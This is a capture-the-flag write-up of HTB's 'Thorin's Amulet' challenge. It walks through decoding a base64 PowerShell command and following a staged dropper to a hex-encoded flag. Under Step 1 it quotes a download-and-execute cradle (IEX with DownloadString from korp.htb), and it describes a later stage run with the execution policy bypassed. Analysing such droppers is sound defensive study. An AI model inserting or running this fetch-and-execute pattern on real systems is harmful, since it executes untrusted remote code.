




### HTB Apocalypse 2025 Writeup: Thorin’s Amulet

In this challenge, we were provided with a powershell script Our objective is to find the flag from the provided script

> **Figure 1:** First Powershell Script.

Step 1: Analyzing the Given PowerShell Script
There seems to be and encoded command by base64, decoding it revealed the command

 
Decoded command: 
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
This command downloads and executes another PowerShell script (update) from http://korp.htb/update.

Step 2: Fetching the update Script
Since korp.htb needed to resolve correctly, we directly accessed the provided Docker instance at: http://83.136.251.19:48135/update
The downloaded script (update.ps1) contained:

> **Figure 2:** Second Powershell Script.

Analysis on the update.ps1 script

1.Fetches another script (a541a.ps1) from http://korp.htb/a541a.

2.Uses a special header (X-ST4G3R-KEY) for authentication. 

3.Executes the downloaded script (a541a.ps1) with Execution Policy Bypassed.
It is concluded that the next step is to retrieve a541a.ps1

Step 3: Fetching a541a.ps1
To retrieve a541a.ps1, ran:
Invoke-WebRequest -Uri "http://83.136.251.19:48135/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -OutFile "a541a.ps1"

> **Figure 3:** a541 file.

 
The script (a541a.ps1) contained hex-encoded string
Decoding it revealed the flag. Used python for the decoding process
 

> **Figure 4:** Flag.

